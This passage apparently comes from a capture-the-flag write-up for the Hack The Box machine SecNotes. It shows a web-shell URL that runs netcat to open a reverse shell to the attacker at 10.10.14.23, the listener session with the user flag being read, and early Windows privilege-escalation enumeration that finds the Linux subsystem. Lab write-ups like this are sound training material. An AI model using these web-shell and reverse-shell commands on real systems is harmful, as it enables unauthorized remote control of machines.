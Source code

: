 Trigger the netcat connection with: `http://secnotes.htb:8808/snowscan.php?cmd=nc+-e+cmd.exe+10.10.14.23+4444`
```
root@darkisland:~/tmp# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.97] 49757
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler

C:\inetpub\new-site>type c:\users\tyler\desktop\user.txt
type c:\users\tyler\desktop\user.txt
6fa755<redacted>
```

### Privesc

After looking around the box for a bit, I found that the Linux subsystem is installed. I noticed a Distros directory, Ubuntu then found bash.exe in `C:\Windows\System32`.

```
C:\>dir
06/21/2018  03:07 PM    <DIR>          Distros
[...]
```

```
C:\Distros\Ubuntu>
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\Distros\Ubuntu

06/21/2018  05:59 PM    <DIR>          .
06/21/2018  05:59 PM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  32,431,472,640 bytes free
```

```
C:\Windows\System32>dir bash.exe
06/21/2018  02:02 PM           115,712 bash.exe
```
